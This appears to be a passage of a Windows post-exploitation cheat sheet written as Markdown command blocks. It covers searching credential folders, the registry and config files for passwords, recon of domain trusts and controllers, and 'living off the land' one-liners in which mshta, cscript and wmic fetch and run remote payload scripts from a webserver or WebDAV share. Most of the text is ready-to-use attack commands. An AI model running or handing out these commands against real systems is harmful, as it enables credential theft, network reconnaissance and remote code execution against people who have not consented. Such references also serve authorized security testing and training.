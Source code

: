 ```
## Potential Credential Files:

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

## Searching the Registry for Passwords:

```
reg query HKLM /f password  /t REG_SZ  /s 
```
## Local Domain Recon:

Shows the domain:

```
echo %USERDOMAIN%
```

Maps AD trust relationships:

```
nltest /domain_trusts 
```

Prints the domain controller name:

```
echo %logonserver% 
```

## Searching the File System for Files of Interest:

```
dir /s *pass* == *cred* == *vnc* == *.config*
```

Search certain file types for a keyword, this can generate a lot of output.

```
findstr /si password *.xml *.ini *.txt
```

# Living off the Land:

## Cscript/Wscript:

```cscript //E:jscript \\webdavserver\folder\payload.txt```

## MSHTA:

```mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload .sct"")"))```
```mshta \\webdavserver\folder\payload.hta```

## WMIC:

```wmic os get /format:"https://webserver/payload.xsl"```

## Examining Processes with WMIC:

```
wmic process list full
wmic process list brief
wmic process get name, parentprocessid,processid